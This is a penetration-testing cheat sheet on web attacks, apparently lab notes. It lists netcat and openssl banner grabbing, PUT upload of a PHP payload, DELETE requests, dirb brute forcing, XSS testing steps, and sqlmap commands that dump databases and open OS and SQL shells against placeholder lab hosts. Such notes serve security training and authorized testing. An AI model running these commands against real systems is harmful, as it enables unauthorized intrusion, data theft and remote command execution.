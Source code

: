 ```yaml
---
description: Web application vulns and exploits
---
```


# Web Attacks

## Banner grabbing

### Netcat \(for HTTP services\)

```bash
nc -v 10.10.10.10 port
HEAD / HTTP/1.0
```

### OpenSSL \(for HTTPS services\)

```bash
openssl s_client -connect 10.10.10.10:443
HEAD / HTTP/1.0
```

### Httprint

```bash
httprint -P0 -h 10.10.10.10 -s /usr/share/httprint/signatures.txt
```

## HTTP Verbs

`GET,  POST, HEAD, PUT, DELETE`

### PUT is used to upload a file to the server

You have to find the size of the file you are uploading first

```text
wc -m payload.php
[size] payload.php
```

```text
nc 10.10.10.10 80
PUT /payload.php
Content-type: text/html
Content-length: [size]

```

### DELETE is used to delete a file from the server

```text
nc 10.10.10.10 80
DELETE /path/to/file.txt / HTTP/1.0
```

### OPTIONS is used to query the webserver for enabled HTTP Verbs

```text
nc 10.10.10.10 80
OPTIONS / HTTP/1.0
```

## Directory and File scanning

### Dirbuster

![Dirbuster](../.gitbook/assets/dirbuster.png)

### dirb

```text
dirb http://10.10.10.10/
```

**If Webpage is authenticated**

```text
dirb http://10.10.10.10/ -u <username>:<password>
```

1. You can choose different wordlists for the dictionary brute force but from my experience in most labs you can find them in the `common.txt` 
2. You can also choose different extensions but _`php`_ and _`bak`_ will be the most useful ones to find.
3. If there is HTTP authentication or login of some other kind for the webpage you can set the creds using \[Options -&gt; Advanced Options -&gt; Authentication options\]
4. The con with Dirbuster is that it sometimes freezes which is a real bummer otherwise it's real good.

## Google Dorks

`site:  
intitle:  
inurl:  
filetype:  
AND, OR & |  
-`

[GHDB](https://www.exploit-db.com/google-hacking-database) for more resources.

## XSS \(Cross-Site Scripting\)

1. Find a reflection point
2. Test with HTML tag \(&lt;h1&gt;Test&lt;/h1&gt;\)
3. Test with JS code \[alert\('XSS'\)\]

XSS filter bypass cheatsheet: [OWASP cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

**Reflected XSS**: Payload is carried inside the request the victim sends to the website. Typically the link contains the malicious payload. 

**Persistent XSS**: Payload remains in the site that multiple users can fall victim to. Typically embedded via a form or forum post.

## SQL Injections

### GET

```sql
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id
```

```sql
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U
```

### Database USER

```sql
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --user
```

### Databases

```text
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --dbs
```

### Dump all

```text
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --dump
```

### POST

Find the parameters that are being passed in POST using BurpSuite.  
E.g: **`username=some&password=thing`** where the parameter username is vulnerable.

```text
sqlmap -u 'http://10.10.10.10/login.php' --data='username=some&password=thing' -p username --technique=B
```

**The Databases, Users and dump-all switches are the same as for the GET parameter.**

If you aren't able to deduce which parameter is vulnerable in POST, you can drop the -p switch. SQLMAP will try to test them and find them on its own so don't sweat it and also for most of the prompts use the default options\(i.e. just press enter\).

The --technique switch is to create less noise and prevent the service from shutting down due to query overload. If the given techniques do not work try it removing the switch.

### OS-Shell

```text
sqlmap -u "http://10.10.10.10/login.php" --os-shell
```

### SQL-Shell

```text
sqlmap -u "http://10.10.10.10/login.php" --sql-shell
```

